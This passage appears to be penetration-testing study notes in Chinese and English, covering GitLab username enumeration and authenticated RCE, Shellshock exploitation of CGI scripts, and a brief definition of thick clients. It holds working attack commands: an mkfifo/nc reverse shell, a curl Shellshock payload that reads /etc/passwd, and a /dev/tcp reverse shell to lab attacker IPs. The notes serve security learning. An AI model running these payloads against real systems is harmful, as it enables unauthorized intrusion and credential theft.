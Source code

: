 ``` python
                print(f'[+] The username {username} exists!')
            elif http_code == 0:
                print('[!] The target is unreachable.')
                break

if __name__ == '__main__':
    main()
```
### Authenticated Remote Code Execution
- [POC](https://www.exploit-db.com/exploits/49951)
``` shell
python 49951.py -t http://gitlab.inlanefreight.local:8081 -u test -p test -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.80 4444 >/tmp/f '
```
#  Common Gateway Interface (CGI) - 列舉與攻擊手法 
>[!章節重點]+
>CGI是在古老的網頁系統尚未有javascript的時代，前端要有動態的顯示必須靠後端的CGI scripts對前端做render，而CGI scripts就放在`/CGI-bin`裡面，CGI scripts可以用C, C++, Java, PERL,等不同語言撰寫。
>CVE-2014-6271(shellshock)是本章節要討論的東西
## shellshock漏洞成因
因為CGI scripts可以讓使用者把一個function定義進變數裡面，比如說:
```bash
$ env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```
當CGI scripts執行到`$ env y='() { :;};`就會return 0，但是還是會繼續執行後面的程式，造成類似command injection的效果。
## cgi檔案列舉
```shell-session
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
## shellshock漏洞利用
- 漏洞利用
```shell-session
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```
- Reverse Shell
```shell-session
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```
# Thick Client Applications
>**富客戶端平台**，即**Rich Client Platform（RCP）**，指的是一種C/S（Client/Server）應用軟體的公用基礎結構實現，其Rich概念是相對於B/S（Browser/Server）應用軟體的（Thin Client）瀏覽器而言的，有時也稱之為胖客戶端（Fat Client）或者傳統客戶端（Traditional Client），它通常包含以下組件：

- 一個微核生命周期管理容器
- 一個模塊或插件框架
- 一個輕便的控制項工具包（包括按鈕（Button），表單元素（Form Element），樹（Tree），表格（Table/Grid），菜單（Menu），工具條（ToolBar）等）
- 一個文件緩存，文本處理，文本編輯器（用於IDE項目）
- 一個工作檯（包括入口（Portal），頁面（Page），視圖（View），透視圖（Perspective），嚮導（Wizard），窗口（Frame）等）
- 一個數據綁定機制
- 一個軟體更新管理裝置
